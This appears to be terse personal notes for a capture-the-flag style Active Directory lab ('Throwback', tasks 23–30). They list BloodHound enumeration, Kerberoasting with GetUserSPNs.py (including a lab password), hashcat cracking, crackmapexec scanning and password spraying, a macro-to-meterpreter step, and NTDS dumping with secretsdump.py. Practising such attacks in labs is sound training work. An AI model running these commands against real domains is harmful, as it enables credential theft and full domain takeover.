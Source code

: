 Left off: Task 23
# Task 23

Bloodhound

Install 3.x

Set up proxy

ssh blairej@throwback-WS01

copy over SharpHound.ps1

run

Load to bloodhound

answer questions

# Task 24

Get SPN for kerberoasting

```
proxychains GetUserSPNs.py -dc-ip 10.200.70.117 THrowback.local/BlaireJ:7eQgx6YzxgG3vC45t5k9 -request
```

crack the hash
```
hashcat hash /usr/share/wordlists/rockyou.txt
```

# Task 25

scan the subnet with cme

```
proxychains crackmapexec smb 10.200.70.0/24
```

Foxyproxy

timekeep webserver

password reset email

# Task 26

Malicious macro

get meterpreter

# Task 27
migrate to system

dump hashes

crack the new hash

# Task 28

enumerate teh db

```cmd
mysql.exe -u root -p
```

# Task 29

cme to password spray

```bash
proxychains crackmapexec smb 10.200.70.117 -u <users> -p <passes>
```

# Task 30

Use bloodhound to `find principals with dcsync rights`

dump NTDS with impacket
```
secretsdump.py -dc-ip 10.200.70.117 Throwback/<user>@10.200.70.117
```

